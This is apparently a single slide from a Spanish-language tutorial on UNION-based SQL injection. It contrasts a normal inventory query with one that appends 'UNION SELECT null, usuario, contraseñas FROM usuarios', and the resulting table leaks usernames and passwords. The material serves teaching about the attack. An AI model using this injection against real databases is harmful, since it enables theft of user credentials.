

UNION injections: De que nos sirve UNION
SELECT id, producto, stock FROM ‘inventario’
| id | producto | stock |
| --- | --- | --- |
| 1 | play | si |
| 2 | xbox | no |
SELECT id, producto, stock FROM ‘inventario’ UNION SELECT null, usuario, contraseñas FROM usuarios -- - ‘
| id | producto | stock |
| --- | --- | --- |
| 1 | play | si |
| 2 | xbox | no |
|  | Nacho | 123 |
|  | Bona | ola |